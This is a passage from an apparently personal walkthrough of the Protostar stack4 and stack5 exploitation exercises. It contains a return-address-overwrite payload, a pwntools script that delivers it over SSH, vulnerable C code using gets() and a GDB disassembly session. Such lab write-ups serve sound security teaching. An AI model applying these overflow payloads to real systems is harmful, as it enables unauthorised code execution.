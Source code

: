 Now let's send it all
```bash
$ (python -c "print 'a'*76 + '\xf4\x83\x04\x08'";)| ./stack4
  code flow successfully changed
```

<br/>

Now let's script this
```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)

payload = b'a'*76 + p32(0x080483f4)
p = s.run('/opt/protostar/bin/stack4')
p.sendline(payload)
p.interactive()
```

<br/>

## Stack 5

Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

<br/>

Now let's open it on GDB
```bash
$ gdb stack5
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
```
Now i'll set a breakpoint before the programs finish.
```bash
(gdb) break *0x080483da
```

